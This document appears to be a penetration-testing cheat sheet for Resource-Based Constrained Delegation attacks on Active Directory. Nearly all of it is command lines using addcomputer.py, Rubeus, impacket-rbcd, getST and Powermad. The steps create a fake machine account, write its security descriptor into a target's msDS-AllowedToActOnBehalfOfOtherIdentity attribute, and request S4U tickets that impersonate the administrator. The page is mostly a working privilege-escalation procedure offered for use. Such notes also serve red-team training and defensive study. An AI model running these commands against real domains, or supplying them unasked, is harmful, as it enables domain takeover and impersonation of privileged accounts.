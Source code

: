 # Resource-Based Constrained Delegation (RBCD)

### Object: msDS-AllowedToActOnBehalfOfOtherIdentity

## Tools: rbcd.py , rubeus.exe , getST , addcomputer.py

#### 1) addcomputer.py

 - addcomputer.py -computer-name 'COMPUTER_NAME' -computer-pass 'COMPUTER_PASSWORD' -dc-host DC -domain-netbios DOMAIN_NETBIOS 'DOMAIN/USER:PASSWORD' (Add computer account)

#### 2) Rubeus

 - rubeus.exe hash /password:COMPUTER_PASS /user:COMPUTER /domain:DOMAIN

 - rubeus.exe s4u /user:FAKE_COMPUTER$ /aes256:AES_256_HASH /impersonateuser:administrator /msdsspn:cifs/VICTIM.DOMAIN.LOCAL /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:DOMAIN.LOCAL/ptt (System/Admin access)

#### 3) rbcd.py

 - impacket-rbcd -delegate-to 'TARGET$' -dc-ip 'DC' -action 'read' 'domain'/'USER':'PASSWORD' (Try to read the attribute)

 - impacket-rbcd -delegate-from 'COMPUTER$' -delegate-to 'TARGET$' -dc-ip 'DC' -action 'write' DOMAIN/USER:PASSWORD

 - getST.py -spn 'cifs/DC_FQDN' 'DOMAIN/COMPUTER_ACCOUNT:COMPUTER_PASS' -impersonate Administrator -dc-ip DC_IP (Get TGT ticket)



#### 4) Powermad

 - import-module powermad 

 - New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose (Create a new computer object)

 - Get-DomainComputer fake01 (Check our newly created computer and get its SID)

### Create a new raw security descriptor for the FAKE01 computer principal

 - $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"

 - $SDBytes = New-Object byte[] ($SD.BinaryLength)

 - $SD.GetBinaryForm($SDBytes, 0)

### Apply the security descriptor bytes to the target machine

 - Get-DomainComputer TARGET_COMPUTER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

 - (New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl (Test if the security descriptor assigned to target computer in msds-allowedtoactonbehalfofotheridentity attribute refers to the fake01$ machine. If yes, we shall see the SID of our created computer)

### Then use Rubeus or getST to impersonate an account on our target computer of our choice
